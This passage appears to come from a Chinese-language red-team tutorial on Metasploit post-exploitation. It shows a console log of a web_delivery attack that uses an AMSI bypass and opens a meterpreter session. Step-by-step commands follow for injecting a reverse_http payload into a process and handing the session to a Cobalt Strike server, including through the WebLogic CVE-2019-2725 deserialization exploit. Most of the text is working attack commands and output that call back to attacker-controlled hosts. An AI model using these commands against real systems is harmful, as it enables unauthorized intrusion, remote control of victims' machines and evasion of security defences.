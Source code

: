 ```console
Jobs
====

  Id  Name                                Payload                           Payload opts
  --  ----                                -------                           ------------
  1   Exploit: multi/script/web_delivery  windows/x64/meterpreter/bind_tcp

msf6 exploit(multi/script/web_delivery) >
[*] xx.xx.xx.xx     web_delivery - Delivering Payload (3744 bytes)
[*] xx.xx.xx.xx     web_delivery - Delivering AMSI Bypass (1387 bytes)
[*] xx.xx.xx.xx     web_delivery - Delivering Payload (3744 bytes)

msf6 exploit(multi/script/web_delivery) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >  set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set rhost <target_ip>
rhost => <target_ip>
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against <target_ip>:4444
[*] Sending stage (200774 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<atk_ip>:45021 -> <target_ip>:4444) at 2023-05-20 09:44:53 +0800

meterpreter > getuid
Server username: DESKTOP-TEST\test
meterpreter >
```

### MSF 派生会话至 CS

首先在 CS 上开启一个监听，正常开启一个 `Beacon HTTP` 即可。

MSF 将 payload 注入到某个进程的内存中，设置监听为 CS VPS 地址即可。

1. `use exploit/windows/local/payload_inject`
2. `set payload windows/x64/meterpreter/reverse_http` // 与 CS 监听器中相同
3. `set DisablePayloadHandler true` // 告诉 msf 已经有监听，不必再新建监听
4. `set lhost <cs_ip>`
5. `set lport <cs_port>`
6. `set session 1`
7. `run`

> 注：还可以使用 `set pid <pid>` 指定注入的进程。

在漏洞利用时，也可以将地址配置为 CS 的监听地址，直接在 CS 上生成会话（以 CVE-2019-2725 为例）

```
# 根据 CS 监听器选择对应的 payload
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set payload windows/meterpreter/reverse_http

# 设置回连地址（CS 监听器地址）
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost CS_IP
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lport CS_PORT

# 指定要执行的 meterpreter 会话
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set session 1

# 设置 MSF 不启动监听（不然 MSF 会提示执行成功，但没有会话建立，同时 CS 也不会接收到会话）
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set disablepayloadhandler true
```

